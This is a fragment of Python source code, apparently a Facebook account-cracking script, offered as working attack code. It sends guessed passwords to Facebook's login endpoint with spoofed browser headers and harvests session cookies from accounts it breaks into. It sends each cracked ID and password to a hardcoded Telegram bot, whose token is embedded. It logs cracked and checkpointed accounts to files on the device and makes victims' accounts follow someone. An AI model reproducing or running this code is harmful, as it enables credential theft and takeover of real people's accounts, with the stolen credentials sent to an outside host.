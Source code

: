             "sec-ch-ua": '"Google Chrome";v="90", "Not)A;Brand";v="8", "Chromium";v="75"',
            "sec-ch-ua-mobile": '?1',
            "sec-ch-ua-platform": "Windows",
            "sec-fetch-dest": 'document',
            "sec-fetch-mode": 'navigate',
            "sec-fetch-site": 'same-origin',
            "sec-fetch-user": '?0',
            "pragma": 'no-cache',
            "priority": 'u=0',
            'cross-origin-resource-policy': 'cross-origin',
            "upgrade-insecure-requests": '1',
            "user-agent": pro}
            lo = session.post('https://free.facebook.com/login/device-based/regular/login/?refsrc',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]                
                print('    \033[1;32m[OK NADER]=  ' +cid+ ' | ' +ps+    '  \n \033[1;97mCOOKES = \033[1;97m'+coki+  ' \n '+pro+'  \033[0;97m')
                
                token = '6105621518:AAHUAaYYVEUKNixj44yu6hhAYpcoDaKZrtU'
                ID = '5868677803'
                tlg = (f'''

⋘─────━𓆩NADER𓆪─────━⋙  
ايدي : {cid}\n باسوورد: {ps} 
⋘─────━𓆩NADER𓆪─────━⋙ 
❖ - ᗷY : NADER

''')

                requests.get("https://api.telegram.org/bot"+str(token)+"/sendMessage?chat_id="+str(ID)+"&text="+str(tlg))                
                cek_apk(session,coki)
                open('/sdcard/ok.txt', 'a').write( cid+' | '+ps+'\n')
                oks.append(cid)
                follow(self, session, coki)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                print('    \33[1;30mCP = ' +cid+ ' | ' +ps+           '  \33[0;97m')
                open('/sdcard/cp.txt', 'a').write( cid+' | '+ps+' \n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write('\r               %s[%s/%s]  [OK NADER:%s]  [CP NADER:%s] \r'%(H,loop,tl,len(oks),len(cps))),
        sys.stdout.flush()
    except:
        pass

i()
